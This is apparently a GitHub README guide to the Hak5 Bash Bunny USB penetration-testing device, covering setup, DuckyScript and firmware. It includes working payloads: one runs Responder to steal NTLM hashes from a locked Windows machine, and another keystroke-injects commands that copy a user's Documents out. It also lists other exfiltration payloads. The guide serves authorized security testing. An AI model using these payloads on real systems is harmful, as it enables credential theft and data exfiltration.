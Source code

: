 # 🐰 Bash Bunny Payloads Repository for Spraggins Designs

## by Austin Spraggins
### 📅 2024-08-08

---

## Introduction

The Bash Bunny by Hak5 is a powerful tool for penetration testers and security researchers. It emulates trusted USB devices like gigabit Ethernet, serial, flash storage, and keyboards to execute a variety of exploits such as data exfiltration, installing backdoors, and more.

---

## 🚀 Getting Started

### 🔀 Switch Positions

- **Position 3 (closest to the USB plug)**: Boots into arming mode, enabling both Serial and Mass Storage.
- **Position 1 and 2**: Used for payload execution. The corresponding `payload.txt` in `/payloads/switch1` or `/payloads/switch2` will be executed on boot.

### 🗂️ Mass Storage Structure

- **📁 /docs**: Home to documentation.
- **🌐 /languages**: Additional HID Keyboard layouts/languages.
- **📂 /loot**: Storage for logs and other data from payloads.
- **🔧 /tools**: Install additional deb packages and other tools.
- **📑 /payloads**: Active payloads, library, and extensions.
  - **/payloads/switch1** and **/payloads/switch2**: Home to `payload.txt` and accompanying files for execution.
  - **/payloads/library**: Payloads library.
  - **/payloads/library/extensions**: Bash Bunny extensions.

---

## 🌈 LED Status Indications

- **Green (blinking)**: Booting up.
- **Blue (blinking)**: Arming Mode.
- **Red (blinking)**: Recovery Mode or Firmware Flashing from v1.0 (DO NOT UNPLUG).
- **Red/Blue Alternating**: Recovery Mode or Firmware Flashing from v1.1+ (DO NOT UNPLUG).

---

## 📦 Installing Additional Tools

1. Place `.deb` files or tool directories into `/tools` on the mass storage partition.
2. Reboot Bash Bunny in arming mode.
3. Tools will be installed, indicated by a solid magenta LED (SETUP).

Example for installing Impacket:
```bash
cp impacket /tools/
```
Reboot Bash Bunny in arming mode to install.

---

## 🌐 Installing Additional Languages

1. Place two-letter-country-code.json file in the `/languages` folder on the mass storage partition.
2. Reboot Bash Bunny in arming mode.

Example for setting US keyboard layout in payload:
```bash
DUCKY_LANG us
```

---

## 📝 Writing Payloads

### Basics

- Payloads must be named `payload.txt`.
- Use any standard text editor (e.g., Notepad, vi, nano).
- Place `payload.txt` in `/payloads/switch1` or `/payloads/switch2` for execution.

### 🦆 DuckyScript

DuckyScript commands are written in ALL CAPS:
```plaintext
ATTACKMODE HID STORAGE
LED ATTACK
QUACK STRING Hello World
```

### 🔌 Extensions

Extensions augment DuckyScript with additional functions. Place extensions in `/payloads/library/extensions`.

Example extension usage:
```plaintext
GET TARGET_IP # Exports $TARGET_IP
REQUIRETOOL impacket
```

### 💡 Example Payload

```plaintext
# Title: QuickCreds
# Description: Steals NTLM hashes from a locked Windows computer
# Author: Hak5Darren

LED SETUP
ATTACKMODE RNDIS_ETHERNET
GET TARGET_HOSTNAME
GET TARGET_IP
python Responder.py -I usb0 &
until [ -f logs/*NTLM* ]; do sleep 1; done
LED FINISH
```

---

## 🌐 Network Hijacking Attacks

Emulate specialized Ethernet adapters for network attacks:
```plaintext
ATTACKMODE RNDIS_ETHERNET # For Windows
ATTACKMODE ECM_ETHERNET # For Mac/Linux
```

---

## 📤 Exfiltration Payloads

### Top 5 Payloads

1. **USB Exfiltrator**
2. **Faster SMB Exfiltrator**
3. **Optical Exfiltration**
4. **Dropbox Exfiltrator**
5. **PowerShell TCP Extractor**

Example for USB Exfiltrator:
```plaintext
ATTACKMODE HID STORAGE
QUACK STRING mkdir C:\loot
QUACK ENTER
QUACK STRING xcopy C:\Users\%USERNAME%\Documents\*.* C:\loot /s /e /q /y
QUACK ENTER
```

---

## 🔄 Firmware Updates

1. Download the latest firmware from [Hak5](https://downloads.hak5.org).
2. Copy the `.tar.gz` file to the root of the mass storage partition in arming mode.
3. Safely eject and reconnect the Bash Bunny.
4. Wait for the update to complete, indicated by the LED status.

---

## 🛠️ Troubleshooting

### 🔄 Factory Reset

1. Set the switch to arming mode.
2. Plug and unplug the Bash Bunny immediately after the green LED turns off. Repeat three times.
3. Plug in the Bash Bunny and wait approximately 5 minutes for it to reset.

### 🔑 Password Reset

1. Create a `payload.txt` in `/payloads/switch1/` with the following content:
    ```bash
    #!/bin/bash
    LED SETUP
    ATTACKMODE SERIAL
    echo -e "hak5bunny\nhak5bunny" | passwd
    LED FINISH
    ```
2. Safely eject the Bash Bunny.
3. Flip the switch to position 1.
4. Plug in the Bash Bunny and wait for the green blinking FINISH pattern.

---

## 🎥 Video Guides

- [Bash Bunny Primer](https://youtu.be/8j6hrjSrJaM)
- [Bash Bunny Phishing Attack with Hamsters](https://youtu.be/TYR2a2XoK3A)
- [Password Grabber Bash Bunny Payload](https://youtu.be/LtqsKftRFiw)

---

## Conclusion

The Bash Bunny is a versatile and powerful tool for a variety of penetration testing and security research tasks. By understanding its capabilities and following this guide, you can effectively utilize the Bash Bunny in your security toolkit.
